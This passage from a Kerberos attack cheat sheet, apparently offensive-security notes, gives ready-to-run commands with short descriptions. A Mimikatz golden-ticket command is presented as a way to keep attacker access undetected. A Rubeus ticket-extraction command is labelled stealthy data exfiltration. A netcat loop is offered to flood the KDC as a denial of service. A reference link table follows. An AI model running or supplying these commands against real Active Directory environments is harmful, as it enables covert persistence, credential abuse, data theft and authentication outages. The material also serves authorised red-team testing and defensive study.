 #### TGT Manipulation

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```bash
    kerberos::golden /domain:<domain> /sid:<domain_SID> /target:<target_FQDN> /rc4:<NTLM_hash> /user:<username> /renew
    ```
* **Description:** Generates a new TGT that extends the attacker’s ability to remain undetected while maintaining access.

### Data Exfiltration

#### Stealthy Data Exfiltration via Kerberos

*   **Tool:** \[\[Rubeus]], \[\[Custom Scripts]]

    ```bash
    rubeus.exe tgtdeleg /extract
    ```
* **Description:** Use delegated tickets to access sensitive data on behalf of a user, exfiltrating it under the guise of legitimate access.

## Exploits and Attacks

### Denial of Service

#### KDC Overload Attack

*   **Tool:** \[\[Custom Scripts]], \[\[NetCat]]

    ```bash
    while true; do echo "flood" | nc <target_ip> 88; done
    ```
* **Description:** Overwhelm the KDC with authentication requests, potentially causing legitimate authentication attempts to fail.

## Resources

| **Website**                                | **URL**                                                                                                                                                                                                                                                                                                      |
| ------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Kerberos Documentation                     | https://web.mit.edu/kerberos/                                                                                                                                                                                                                                                                                |
| Microsoft Docs on Kerberos                 | [https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)                                                                                                     |
| Impacket Tools                             | [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)                                                                                                                                                                                                                     |
| Mimikatz                                   | [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)                                                                                                                                                                                                                             |
| Kerberos Protocol Tutorial                 | https://www.kerberos.org/software/tutorial.html                                                                                                                                                                                                                                                              |
| NIST SP 800-63                             | [https://pages.nist.gov/800-63-3/sp800-63b.html](https://pages.nist.gov/800-63-3/sp800-63b.html)                                                                                                                                                                                                             |
| RFC 4120                                   | https://tools.ietf.org/html/rfc4120                                                                                                                                                                                                                                                                          |
| Kerberos (Wikipedia)                       | [https://en.wikipedia.org/wiki/Kerberos\_(protocol)](https://en.wikipedia.org/wiki/Kerberos\_\(protocol\))                                                                                                                                                                                                   |
| MIT Kerberos Documentation                 | https://web.mit.edu/kerberos/krb5-1.12/doc/                                                                                                                                                                                                                                                                  |
| Microsoft Kerberos (TechNet)               | [https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)                                                                                                     |
| Red Teaming with Rubeus                    | [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)                                                                                                                                                                                                                                   |
| Understanding Kerberos in Active Directory | [https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/kerberos-protocol-transitions-and-constrained-delegation](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/kerberos-protocol-transitions-and-constrained-delegation) |